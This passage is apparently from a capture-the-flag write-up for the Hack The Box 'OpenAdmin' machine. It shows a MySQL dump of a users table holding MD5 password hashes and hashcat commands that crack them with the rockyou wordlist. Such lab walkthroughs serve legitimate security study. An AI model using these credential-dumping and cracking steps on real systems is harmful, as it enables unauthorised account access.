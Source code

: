 ```sql
| hosts                  |
| interface_clusters     |
| interfaces             |
| locations              |
| manufacturers          |
| messages               |
| models                 |
| ona_logs               |
| permission_assignments |
| permissions            |
| roles                  |
| sequences              |
| sessions               |
| subnet_types           |
| subnets                |
| sys_config             |
| tags                   |
| users                  |
| vlan_campuses          |
| vlans                  |
+------------------------+
40 rows in set (0.00 sec)

mysql> SELECT * from users;
+----+----------+----------------------------------+-------+---------------------+---------------------+
| id | username | password                         | level | ctime               | atime               |
+----+----------+----------------------------------+-------+---------------------+---------------------+
|  1 | guest    | 098f6bcd4621d373cade4e832627b4f6 |     0 | 2021-01-01 19:35:54 | 2021-01-01 19:35:54 |
|  2 | admin    | 21232f297a57a5a743894a0e4a801fc3 |     0 | 2007-10-30 03:00:17 | 2007-12-02 22:10:26 |
+----+----------+----------------------------------+-------+---------------------+---------------------+
2 rows in set (0.00 sec)

mysql>
```

A hash of 32 characters is probably a MD5 hash:

![32chars-hash](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/openadmin/32chars-hash.png)

### Cracking passwords with `hashcat`

```bash
$ echo "098f6bcd4621d373cade4e832627b4f6" > hashes
$ echo "21232f297a57a5a743894a0e4a801fc3" >> hashes
$ hashcat hashes -m 0 /usr/share/wordlists/rockyou.txt
#...
```
